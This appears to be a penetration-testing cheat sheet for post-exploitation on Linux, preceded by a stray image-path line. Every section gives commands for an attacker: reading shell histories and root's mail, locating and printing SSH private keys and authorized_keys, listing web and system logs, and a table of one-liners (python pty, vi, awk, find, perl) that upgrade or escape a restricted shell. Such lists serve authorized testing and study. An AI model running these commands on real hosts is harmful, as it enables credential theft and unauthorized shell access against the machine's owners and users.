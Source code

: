 * Shell history
```
cat ~/.bash_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history
cat ~/.bashrc
cat ~/.profile
cat /var/mail/root
cat /var/spool/mail/root
```

* SSH private key
```
find / -name .ssh

cat ~/.ssh/authorized_keys
cat ~/.ssh/identity.pub
cat ~/.ssh/identity
cat ~/.ssh/id_rsa.pub
cat ~/.ssh/id_rsa
cat ~/.ssh/id_dsa.pub
cat ~/.ssh/id_dsa
```

* Check for mails
```
ls -alhR /var/mail
```

* Check log files
```
ls -alR /etc/httpd/logs
ls -alR /var/log/apache2
ls -alR /var/log/apache
ls -alR /var/log
ls -alR /var/webmin
ls -alR /var/www/logs
ls -alh /var/log
```


* Jailbreaking shell to TTY

|   Binary    |                         Command                            | 
|-------------|------------------------------------------------------------| 
| python      | python -c 'import pty;pty.spawn("/bin/bash")'              | 
| python      | python -c 'import pty;pty.spawn("/bin/sh")'                | 
| call shell  | echo os.system('/bin/bash')                                | 
| call shell  | /bin/sh -i                                                 | 
| vi          | :!bash                                                     | 
| vi          | :set shell=/bin/bash:shell                                 | 
| vi          | :!bash                                                     | 
| vi          | :set shell=/bin/bash:shell                                 | 
| awk         | awk 'BEGIN {system("/bin/bash")}'                          | 
| find        | find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' \; | 
| perl        | perl -e 'exec "/bin/bash";'                                | 
| sh          | /bin/sh -i                                                 | 
